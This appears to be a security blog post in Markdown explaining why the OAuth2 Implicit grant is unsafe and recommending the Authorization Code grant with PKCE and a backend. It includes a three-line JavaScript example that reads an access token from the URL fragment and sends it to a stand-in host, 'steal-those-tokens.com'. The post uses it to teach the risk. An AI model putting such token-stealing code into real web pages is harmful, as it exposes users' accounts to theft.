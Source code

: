 ```yaml
---
layout: blog-post
title: What's Wrong With the Implicit Grant?
description: OAuth2 specifies an Implicit grant. What's wrong with using it?
author: Brian Pontarelli
image: blogs/avoid-implicit-grant/whats-wrong-with-the-oauth2-implicit-grant-header-image.png
category: blog
tags: client-javascript
excerpt_separator: "<!--more-->"
---
```

The Implicit grant is part of the OAuth 2 RFC, but is [one of the features omitted in the OAuth 2.1 specification](/learn/expert-advice/oauth/differences-between-oauth-2-oauth-2-1/). With this grant, you don't have to write server side code. Instead of having to exchange an authorization code for an access token, you are provided an access token on redirect.

<!--more-->

This is convenient if you are working in the JAMstack or in another situation where you don't want to run a server. 

However, it is horribly insecure, broken, deprecated, and should never, ever be used (ever). Okay, maybe that's being a bit dramatic, but please don't use this grant. The good folks behind the OAuth 2.1 draft agree, which is why they left it out of that new specification.

> The Implicit grant ("response_type=token") is omitted from this specification as per Section 2.1.2 of OAuth 2.0 Security Best Current Practices

## Run away

Instead of showing you how to use this grant, let's discuss why you should avoid it.

{% include _image.liquid src="/assets/img/blogs/avoid-implicit-grant/Rabbitattack.jpg" alt="Just a rabbit?" class="img-fluid" figure=false %}

The reason that it has been removed is that it skips an important step that allows you to secure the tokens you receive from the OAuth server. This step occurs when your application backend makes the call to the Token endpoint to retrieve the tokens.

Unlike the [Authorization Code grant](/docs/v1/tech/oauth/#example-authorization-code-grant), the Implicit grant does not redirect the browser back to your application backend with an Authorization Code. Instead, it puts the access token directly on the URL as part of the redirect. These URLs look like this:

`https://piedpiper.com/#token-goes-here`

The token is added to the redirect URL after the `#` symbol. This places it in the fragment portion of the URL. What this means is that wherever the OAuth server redirects the browser to, the access token is accessible to any code running in the browser. In other words, to basically everyone.

To be more precise, the access token is accessible to any and all JavaScript that is running in the browser (including third party libraries). Since this token allows the browser to make API calls and web requests on behalf of the user, having this token be accessible to third-party code is extremely dangerous.

Let's take a dummy example of a single-page web application that uses the Implicit grant:

```html
// This is dummy code for a SPA that uses the access token
<html>
<head>
  <script type="text/javascript" src="/my-spa-code-1.0.0.js"></script>
  <script type="text/javascript" src="https://some-third-party-server.com/a-library-found-online-that-looked-cool-0.42.0.js"></script>
</head>
<body>
...
</body>
```

This HTML includes two JavaScript libraries:

* The code for the application itself (`my-spa-code-1.0.0.js`).
* A library we found online that did something cool and we just pulled it in (`a-library-found-online-that-looked-cool-0.42.0.js`).

Let's assume that our code is 100% secure and we don't have to worry about it. The library we pulled in, however, is an unknown quantity. 

This library may include other libraries as well. Remember, the DOM is dynamic. Any JavaScript can load any other JavaScript library simply by updating the DOM with `<script>` tags. Therefore, we have very little chance of ensuring every other line of code from third-party libraries is secure. 

After all, **do you** audit every JavaScript library and every dependency of each library every time you deploy your application? 

If a third-party library wanted to steal an access token from our dummy application, all it would need to do is run this code:

```javascript
if (window.location.hash.contains('access_token')) {
  fetch('http://steal-those-tokens.com/yummy?hash=' + window.location.hash);
}
```

Three lines of code and the access token has been stolen. As you can see, the risk of leaking tokens is far too high to ever consider using the Implicit grant. This is why we recommend no one ever use this grant.

## How to correctly use OAuth in a SPA

Well, if you are building an awesome React, Angular, Vue or other single page application, what should you use instead of the Implicit grant?

Use the Authorization Code grant! It's secure, safe, well tested, standardized and keeps tokens out of the URL.

In addition to using that grant, take these steps to secure your SPA OAuth flow:

* Use [PKCE](https://tools.ietf.org/html/rfc7636) in your SPA to make sure your application, which can't maintain a secure client secret, is not susceptible to an authorization code interception attack.
* Run a server. It needn't be complicated. In fact, it can be as simple as a few lines of node to exchange the authorization code for an access token. Here's [an example Node application](https://github.com/fusionauth/fusionauth-example-node). This is also known as the BFF, or Backend For a Frontend, pattern.
* Store access tokens out of reach of JavaScript in the browser. You could store them in a server side session, or in `secure`, `HttpOnly` cookies.

Want to learn more about the different OAuth grants? Check out [The Modern Guide to OAuth](/learn/expert-advice/oauth/modern-guide-to-oauth/) for an in-depth look at all the different OAuth grants and how you might use them in the real world.

Happy coding!

